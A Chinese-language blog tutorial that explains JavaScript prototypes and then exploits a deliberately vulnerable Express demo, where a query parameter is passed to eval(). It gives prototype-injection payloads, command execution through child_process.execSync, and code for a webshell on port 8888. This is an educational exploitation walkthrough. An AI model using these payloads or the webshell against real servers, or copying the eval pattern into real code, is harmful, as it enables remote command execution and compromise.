### 变量类型

在JavaScript中，有6种原始值分别是：

- `boolean`
- `number`
- `string`
- `undefined`
- `symbol`
- `null`

3种引用类型，分别是：

- 对象 (Object)
- 数组 (Array)
- 函数 (Function)

引用类型都是对象，通过 instanceof 操作符来判断对象的类型

JavaScript instanceof 能判断对象的原理就是判断一个对象与其构造函数是否在同一个原型链上，但其实instanceof用来判断类型并不准确，常用`Object.prototype.toString.call()`来判断数据类型
### 什么是原型，原型链
#### 原型
JavaScript的所有对象(实例)中都包含一个`__proto__`内部属性，这个属性所对应的就是该对象的原型，对象都从原型继承方法和属性
JavaScript的`函数`对象，除了原型`__proto__`属性之外，还预置了`prototype`属性，当`函数`对象作为构造函数创建实例的时候，该`prototype`属性将被作为实例对象的原型`__proto__`

构造函数new的时候发生了什么？
```javascript
var obj = {};
obj.__proto__ = Base.prototype
Base.call(obj)
```

1. 创建一个新的对象obj
2. 将这个空对象的`__proto__`成员指向Base函数对象prototype成员对象
3. Base函数对象的this指针替换成obj，相当于执行Base.call(obj)
4. 如果构造函数显示地返回一个对象，那么这个实例则为返回的对象，否则返回这个新创建的对象。

普通对象的原型

函数对象（构造函数）的prototype === 实例对象的原型 

#### 原型链
任何一个实例对象通过原型链都可以找到它对应的原型对象，并且原型对象上面的实例和方法都是被实例所共享的，一个对象在查找一个方法或者属性时，他会先在自己的对象中找，如果找不到，就会沿着原型链依次向上找，直到最后到Object
> 函数才有`prototype`，实例对象只有`__proto__`，而函数有`__proto__`是因为函数是`Function`对象的实例

在这里我创建一个obj，里面只有 `name`和 `age`属性，然后在其原型上创建`msg`属性，`getMsg` 方法，然后该对象中不存在`msg`属性，`getMsg`方法，但是当需要使用 `msg` 属性，`getMsg` 方法的时候，JavaScript就会沿着原型链去寻找`msg`属性，`getMsg`方法，如果找到了就返回，如果直到顶层object都没有，则返回`undefined`



那么是不是我修改了Object的prototype是不是就可以为所欲为了？并不是这样，当对象当前无属性或者方法的时候，才会一层一层通过原型链去查找原型上的方法或属性，当存在该属性或者方法的时候，则会停止向上查找，且直接返回。所以当在原型链上只要有一个原型存在该方法，则不会调用Object原型中的方法。

### Demo
我使用Node.js 启动一个web环境（Express），代码如下：
```javascript
const express = require('express')
const app = new express()

const obj = {
    getMsg: 'hello world',
    getList: getReadMsg()
}

function getReadMsg(){
    return 'test'
}

Object.freeze(obj)

app.get('/', (req, res) => {
    const resp = eval('obj.' + req.query.test)
    res.send(resp)
})

app.listen( 8081,()=>{
    console.log('running on 8081 port!')
})
```
注意，在这里使用了eval方法，（eval方法会使用JavaScript解释该字符串），且对象表示法使用了点表示法取对象的属性或者方法
可以看见，test 参数处可拼接属性值，并使用对象点表示法，执行对象。
在这里有`Object.freeze(obj)`，这里表示冻结该对象，不允许对对象属性进行修改

#### payload_1
针对obj.getMsg / obj.getList 的原型进行构造payload
```
?test=getMsg.__proto__.secFunc=function(){return+"secTest,hello+world"}
?test=getMsg.__proto__.secFunc()
=> 
?test=getMsg.__proto__.secFunc=function(){return+"secTest,hello+world"}()
```



原理：
obj.getMsg 的类型是String类型，字符串方法全都源自其原型上的方法，那么将secFunc方法写在其原型上，然后再调用
```javascript
// 这里的secFunc 是一个 Function
obj.getMsg.__proto__.secFunc = function(){return "secTest,hello world"}
// 调用该方法
obj.getMsg.secFunc() 
// 或者 指定第一层原型上的secFunc方法
obj.__proto__.secFunc()
// 又因为以下表达式会返回一个function，那么在JavaScript里，只要返回值是function在其后加上括号即可立即执行方法
obj.getMsg.__proto__.secFunc = function(){return "secTest,hello world"}()
```
#### payload_2
存在Object.freeze 方法，不允许在object里添加属性，那么给他的原型添加方法并调用
```
?test=__proto__.secTest=function(){return "secTest,hello world"}
?test=secTest()
=> 
?test=__proto__.secTest=function(){return "secTest,hello world"}()
```


#### payload_3
向该对象添加立即执行函数
```
?test=secTest=function(){return "secTest,hello world"}()
```


### 漏洞利用
以该demo作为漏洞环境，使用node.js的child_process模块，完成命令执行
#### 0x1 命令执行
```
?test=secTest=function(){return+require('child_process').execSync('whoami')}()
```
这里的require('child_process').execSync(command)中的execSync是指同步执行，并将结果返回回来，如果是使用exec方法，在JavaScript中会将其构造成异步任务，取数据要从promise/或者使用回调函数取，对于攻击者并不友好，所以我们使用时间换效率的方式来完成命令执行

#### 0x2 如何向Node.js 服务上传webshell
关于Node.js 上传webshell我查阅了很多文档，其实都没有说得很明白，我以前是搞web开发的，所以还是或多或少了解JavaScript的特性，node.js启动的web服务，其实和serlvet，apache有很明显的区别，servlet，apache等都可以解析相应的`.php`,`.jsp`文件，而虽说node.js也有模板语法，但是Node只解析相应的模板文件，这种模板文件都是静态文件，只是提供数据渲染，而不是动态执行，所以基于node.js，python的模板解析上传可解析的文件，其实是不奏效的，并不能执行命令，因为node.js，python启动的web服务，是通过进程启动，所以我们要使其执行应该使用js文件，那么要达成可视化的webshell，通过这个demo，使用命令执行，启动一个新的端口，来执行命令

思路01
```
?test=getMSg;Reflect.construct(Function,[res.send(require('child_process').execSync('whoami'))])
```
分号用于换行，在ESlint中，是舍弃了分号，但是如果没有较好的编码规范或者良好的打包方式，如果将代码写成一行，则会造成代码不可读
Reflect是JavaScript的一个内置对象，Reflect.construct() 方法的行为有点像 new 操作符 构造函数 ， 相当于运行 new target(...args)
语法如下：
Reflect.construct(target, argumentsList[, newTarget])
target为Function，argunmentList则为需要传入的方法，再此处就将结果返回回来，在这里就可以看见我们执行了whoami并回显回来了

在未使用return 返回结果的时候，使用该方式发现又可以代码执行，那么再启动一个端口，用于执行命令，就达到了webshell的功能
这里我图方便没有使用nodejs的http模块启动，而是使用express模块执行（需要下载express库）
代码
```javascript
const express_1 = require('express')
const app_1 = new express_1()
app_1.get('/', (req_1, res_1)=>{
    res_1.header('Content-Type','text/html')
    res_1.send(require('child_process').execSync(req_1.query.cmd))
})
app_1.listen('8888')
```



